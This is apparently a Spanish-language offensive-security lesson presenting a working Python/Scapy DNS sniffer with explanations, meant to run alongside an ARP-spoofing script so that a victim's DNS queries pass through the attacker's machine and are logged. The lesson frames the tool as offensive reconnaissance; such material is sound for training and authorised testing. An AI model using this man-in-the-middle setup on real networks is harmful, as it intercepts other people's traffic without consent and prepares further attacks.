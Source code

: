 
----
- TAG: #Implementación #Sniffer #Consultas #DNS #Scapy 
-------
En esta clase, nos centraremos en la creación de un rastreador de consultas DNS (DNS Sniffer) utilizando Scapy, una herramienta de Python orientada a la manipulación de paquetes de red para propósitos ofensivos. Un DNS Sniffer es una herramienta ofensiva que permite interceptar y analizar las consultas DNS en una red. Estas consultas son esenciales en la comunicación de Internet, ya que convierten nombres de dominio en direcciones IP.

Con Scapy, aprenderás a capturar paquetes DNS de forma activa para explorar cómo los dispositivos en una red interactúan con servidores DNS. Este conocimiento es crucial en el contexto ofensivo, ya que permite identificar objetivos potenciales para ataques y explotar vulnerabilidades en la comunicación DNS.

Durante la clase, te mostraremos cómo se pueden utilizar estas técnicas para reunir información valiosa sobre una red y sus usuarios, lo que puede ser utilizado en diversas estrategias de ataque. Al final de esta sesión, habrás desarrollado una herramienta ofensiva clave que te permitirá realizar reconocimientos avanzados y explotar debilidades en la gestión de DNS dentro de una red.

----
# Dns_sniffer.py

```python
#!/usr/bin/python3

import scapy.all as scapy

# Función para procesar los paquetes DNS interceptados
def process_dns_packet(packet):
    # Verificar si el paquete contiene una consulta DNS
    if packet.haslayer(scapy.DNSQR):
        # Extraer el nombre de dominio solicitado en la consulta DNS
        domain = packet[scapy.DNSQR].qname.decode()

        # Lista de palabras clave a excluir (ej.: servicios comunes)
        exclude_keywords = ["google", "cloud", "bing", "static", "sensic"]

        # Verificar que el dominio no haya sido visto previamente y que no contenga palabras clave excluidas
        if domain not in domains_seen and not any(keyword in domain for keyword in exclude_keywords):
            domains_seen.add(domain)
            print(f"[+] Dominio interceptado: {domain}")

# Función para iniciar el sniffer de paquetes en una interfaz específica
def sniff(interface):
    # Capturar solo paquetes UDP en el puerto 53 (DNS)
    scapy.sniff(iface=interface, filter="udp and port 53", prn=process_dns_packet, store=0)

# Función principal
def main():
    # Iniciar el sniffer en la interfaz especificada (eth0, por ejemplo)
    sniff("eth0")

if __name__ == '__main__':
    # Inicializar el conjunto de dominios ya vistos para evitar repeticiones
    global domains_seen
    domains_seen = set()

    # Ejecutar la función principal
    main()
```

### Explicación del código:

1. **Importación de Scapy:**
   ```python
   import scapy.all as scapy
   ```
   Scapy es una poderosa librería de Python para manipular paquetes de red, y aquí se usa para capturar y procesar paquetes DNS.

2. **Función `process_dns_packet`:**
   - Esta función toma un paquete capturado y verifica si contiene una consulta DNS (`DNSQR` es el tipo de consulta DNS en Scapy).
   - Si el paquete es una consulta DNS, extrae el nombre de dominio solicitado usando la capa `DNSQR` y lo decodifica.
   - Se utiliza una lista llamada `exclude_keywords` que contiene palabras clave comunes para excluir solicitudes a dominios no deseados, como Google, Bing, y otros servicios habituales.
   - La función agrega el dominio al conjunto `domains_seen` (un set que almacena dominios ya capturados para evitar duplicados) y lo imprime si no está en la lista de palabras clave excluidas.

3. **Función `sniff`:**
   - Esta función inicia el sniffer de paquetes en la interfaz de red especificada (en este caso, "eth0").
   - Usa el filtro `"udp and port 53"` para capturar solo paquetes DNS, ya que estos utilizan el protocolo UDP en el puerto 53.
   - La función `scapy.sniff()` captura los paquetes y ejecuta la función `process_dns_packet` para cada paquete interceptado.

4. **Función principal `main`:**
   - Es la función que se ejecuta cuando se inicia el script. Se llama a la función `sniff()` y se pasa como argumento la interfaz de red donde queremos capturar los paquetes.

5. **Bloque `if __name__ == '__main__'`:**
   - Aquí se inicializa la variable global `domains_seen` como un conjunto vacío. Este conjunto se usa para almacenar los dominios que ya se han interceptado, evitando que el mismo dominio se imprima varias veces.
   - Luego se ejecuta la función `main()` que inicia el proceso de sniffing.

### Explicación del flujo de trabajo:

1. **ARP Spoofing:**
   Primero, ejecutas el script `arp_spoof.py` en otra terminal. Este script realizará el envenenamiento ARP, haciendo que el tráfico de la máquina víctima pase a través de tu equipo.

2. **DNS Sniffer:**
   Después, ejecutas este script `dns_sniffer.py` en tu máquina atacante. Capturará todo el tráfico DNS que pase por tu máquina, debido al envenenamiento ARP.

3. **Filtrado de DNS:**
   El sniffer captura consultas DNS (paquetes que utilizan UDP en el puerto 53), y el script filtra y muestra solo las consultas que no contienen ciertas palabras clave (como "google", "bing", etc.), para enfocarse en los dominios más relevantes.

4. **Evitar duplicados:**
   Se utiliza el conjunto `domains_seen` para asegurarse de que no se impriman múltiples veces los mismos dominios.

5. **Ejecución del script:**
   Al ejecutar el script, debes tener en cuenta la interfaz de red. Si estás usando otra interfaz distinta a `eth0`, debes modificarla en la función `sniff()` para que capture los paquetes en la interfaz correcta.

### Ejecución del sniffer:

Para ejecutar este sniffer, debes ejecutar lo siguiente en tu terminal:

```bash
sudo python3 dns_sniffer.py
```

Este comando debe ejecutarse con privilegios de superusuario (sudo) para permitir la captura de paquetes en la red.

### Resumen:
Este script funciona en conjunto con el envenenamiento ARP para interceptar y filtrar tráfico DNS en la red. Una vez activado, cualquier solicitud DNS que la víctima realice, siempre que no esté en la lista de palabras clave excluidas, será interceptada y mostrada en tu terminal.